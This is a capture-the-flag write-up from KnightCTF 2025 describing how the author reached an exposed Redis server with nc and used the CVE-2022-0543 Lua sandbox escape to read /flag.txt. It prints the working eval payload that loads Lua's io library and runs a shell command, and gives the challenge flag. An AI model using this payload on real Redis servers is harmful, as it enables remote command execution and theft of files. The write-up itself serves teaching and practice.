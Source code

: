 ```yaml
---
title: "Luana"
description: "Show me your skills. Read the /flag.txt"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-knight/icon.png"
---
```




We are given a webserver that notifies the service has started on port `6379`, looking into that port it is **Redis**. I'd heard of it before but never really used it. We are also told the flag is stored at `/flag.txt`.

> Redis is a source-available, in-memory storage, used as a distributed, in-memory key–value database, cache and message broker, with optional durability.

I start with some basic commands such as `set` and `get` through `nc`

```
$ nc server 6379
> set 0 1
> get 0
1
```

Looking into Redis on [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html) I notice that it mentions a LUA Sandbox Escape that's usually patched.

Thinking of the title of the challenge **Lua**na I think I know where to look.

Looking at recent CVE's in Redis I find one that's a [Lua sandbox escape from 2022](https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis) and make a payload according to the blog.

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /flag.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Flag: `KCTF{c0n6r475_b015_n1c3_c47ch}`
